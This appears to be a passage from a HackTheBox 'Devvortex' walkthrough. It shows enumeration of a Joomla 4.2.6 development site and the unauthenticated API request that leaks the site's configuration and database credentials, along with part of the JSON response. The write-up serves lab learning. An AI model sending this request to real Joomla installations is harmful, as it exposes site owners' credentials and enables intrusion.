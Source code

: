 o/p
![image](/assets/htb-devvortex/Pasted_image_20231127021845.png)

Lets work our way with the subdomain

# dev.devvortex.htb

Upon visiting the site we get
![image](/assets/htb-devvortex/Pasted_image_20231127021942.png)

## Robots.txt

Robots.txt reveals we're on joomla cms with other directories
![image](/assets/htb-devvortex/Pasted_image_20231127030959.png)

## /administrator

we get an admin page
![image](/assets/htb-devvortex/dev.png)

## joomscan

lets identify what version of joomla we're running with joomscan

```bash
joomscan  -u http://dev.devvortex.htb/
```

running joomscan we find the version to be 4.2.6

also by navigating to http://dev.devvortex.htb//administrator/manifests/files/joomla.xml
also leaks the version
![image](/assets/htb-devvortex/Pasted_image_20231127070944.png)

## Information Disclousure

we find this blog https://vulncheck.com/blog/joomla-for-rce talking about the mysql creds leak in api directory

```bash
curl -v http://URL/api/index.php/v1/config/application?public=true
```

o/p

```bash
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&pag
e%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":({"type":"applica
tion","id":"22),"attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon
```